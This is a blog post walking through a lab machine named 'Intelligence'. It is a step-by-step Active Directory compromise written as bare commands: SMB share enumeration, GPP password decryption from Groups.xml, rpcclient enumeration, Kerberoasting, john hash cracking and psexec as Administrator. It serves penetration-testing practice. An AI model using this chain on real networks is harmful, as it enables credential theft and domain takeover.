 ```yaml
---
# multilingual page pair id, this must pair with translations of this page. (This name must be unique)
lng_pair: id_intelligence
title: "Intelligence"

# post specific
# if not specified, .name will be used from _data/owner/[language].yml
author: Bast1ant1c
# multiple category is not supported
category: Easy
# multiple tag entries are possible
tags: [AD, pentesting]
# thumbnail image for post
img: ":main_photo.jpg"
# disable comments on this page
#comments_disable: true

# publish date
date: 2022-12-27

# seo
# if not specified, date will be used.
#meta_modify_date: 2022-01-01 10:04:30 +0900
# check the meta_common_description in _data/owner/[language].yml
meta_description: ""

# optional
# please use the "image_viewer_on" below to enable image viewer for individual pages or posts (_posts/ or [language]/_posts folders).
# image viewer can be enabled or disabled for all posts using the "image_viewer_posts: true" setting in _data/conf/main.yml.
#image_viewer_on: true
# please use the "image_lazy_loader_on" below to enable image lazy loader for individual pages or posts (_posts/ or [language]/_posts folders).
# image lazy loader can be enabled or disabled for all posts using the "image_lazy_loader_posts: true" setting in _data/conf/main.yml.
#image_lazy_loader_on: true
# exclude from on site search
#on_site_search_exclude: true
# exclude from search engines
#search_engine_exclude: true
# to disable this page, simply set published: false or delete this file
#published: false
---
```

<!-- outline-start -->

Hola, esta es la máquina intelligence! Let's hack!

<!-- outline-end -->

## RECON
```python
ping -c 1 <IP>
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP> -oG ports
extractports <ports>
nmap -sCV <PORTS> -oG services
```

## AD DOMAIN DETECTION
```bash
crackmapexec smb <IP>
sudo su
nvim /etc/hosts
<IP>	<DOMAIN>
```

## SMB ENUM
```bash
smbclient -L <IP> -N
crackmapexec smb <IP> --shares
smbmap -H <IP>
smbmap -H <IP> -r Replication/intelligence.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/
smbmap -H <IP> --download Replication/intelligence.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
mv <IP>-Replication_intelligence.htb_Policies_{31B2F340-016D-11D2-945F-00C04FB984F9}_MACHINE_Preferences_Groups_Groups.xml groups.xml
```

## DECRYPT GROUPS.XML PASSWORD
```bash
gpp-decrypt '<CPASSWORD>'
```

## GRANTED SMB ACCESS SVC_TGS USER
```bash
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>'
crackmapexec smb <IP> -u 'SVC_TGS' -p '<PASSWORD>' --shares
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' -r Users/SVC_TGS/Desktop/user.txt
```

## FLAG USER.TXT
```bash
smbmap -H <IP> -u 'SVC_TGS' -p '<PASSWORD>' --download Users/SVC_TGS/Desktop/user.txt
mv <IP>-Users_SVC_TGS_Desktop_user.txt user.txt
cat user.txt
```

## AD ENUM RPCCLIENT
```bash
rpcclient -U "SVC_TGS%<PASSWORD>" <IP>
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomusers'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'enumdomgroups'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querygroupmem 0x200'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'queryuser 0x1f4'
rpcclient -U "SVC_TGS%<PASSWORD>" <IP> -c 'querydispinfo'
echo SVC_TGS > users.txt
```

## AD TGT GETNPUSERS.PY
```bash
GetNPUsers.py intelligence.htb/ --no-pass -usersfile users.txt
```

## AD USER ENUM KERBRUTE
```bash
kerbrute userenum --dc <IP> -d intelligence.htb /usr/share/Seclists/Usernames/Names/names.txt
```

## ADJUST DATE & TIME WITH AD (OPTIONAL)
```bash
ntpdate <IP>
```

## AD TGS GETUSERSPN.PY
```bash
GetUserSPN.py intelligence.htb/SVC_TGS:<PASSWORD> -request
```

## BRUTEFORCE ADMINISTRATOR HASH
```bash
echo '<HASH>' > hash
john -w:/usr/share/wordlists/rockyou.txt hash
```

## GRANTED ACCESS ADMINISTRATOR USER
```bash
crackmapexec smb <IP> -u 'Administrator' -p '<PASSWORD>'
psexec.py 'intelligence.htb/Administrator:<PASSWORD>@<IP>' cmd.exe
whoami
```

## FLAG ROOT.TXT
```bash
type C:\Users\Administrator\Desktop\root.txt
```
